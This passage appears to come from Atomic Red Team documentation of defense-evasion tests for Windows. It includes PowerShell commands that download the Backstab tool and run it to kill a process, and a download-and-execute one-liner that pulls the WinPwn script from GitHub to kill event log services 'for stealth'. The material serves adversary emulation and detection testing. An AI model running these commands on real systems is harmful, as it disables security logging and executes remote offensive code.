```powershell
& PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe -k -n #{process_name}
```




#### Dependencies:  Run with `powershell`!
##### Description: Backstab64.exe should exist in ExtrnalPayloads Directory
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/Yaxser/Backstab/releases/download/v1.0.1-beta/Backstab64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Backstab64.exe"
```




<br/>
<br/>

## Atomic Test #29 - WinPwn - Kill the event log services for stealth
Kill the event log services for stealth via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7869d7a3-3a30-4d2c-a5d2-f1cd9c34ce66






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
inv-phantom -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #30 - Tamper with Windows Defender ATP using Aliases - PowerShell
Attempting to disable scheduled scanning and other parts of Windows Defender ATP using set-MpPreference aliases. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.
